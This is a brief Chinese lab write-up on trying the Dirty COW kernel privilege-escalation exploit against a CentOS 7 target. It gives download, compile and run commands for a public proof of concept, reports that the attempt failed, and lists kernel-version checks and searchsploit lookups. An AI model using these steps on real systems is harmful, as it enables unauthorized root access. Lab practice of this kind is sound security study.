




## dirtyCow脏牛内核提权

这里我靶机用的是centos7，版本信息为

```
Linux localhost.localdomain 3.10.0-957.el7.x86_64 #1 SMP Thu Nov 8 23:39:32 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```




### 下载poc

wget https://github.com/FireFart/dirtycow/archive/master.zip

### 解压

```
unzip master.zip
```

### 编译

```
gcc -pthread dirty.c -o dirty -lcrypt
```

### 执行

./dirtyCow test（test输入的是密码）




到这里就应该执行成功了，但是使用cat /etc/passwd查看用户时候，未发现firefart用户，未成功，应该是该版本不存在该漏洞。




另外记录一下其它内核漏洞提权方法

1、查看发行版

```
cat /etc/issue
cat /etc/*-release
```

2、查看内核版本

```
uname -a
```

3、用kali自带的searchsploit来搜索exploitdb中的漏洞利用代码

```
searchsploit dirty
```




参考：https://www.jianshu.com/p/db72a58649cc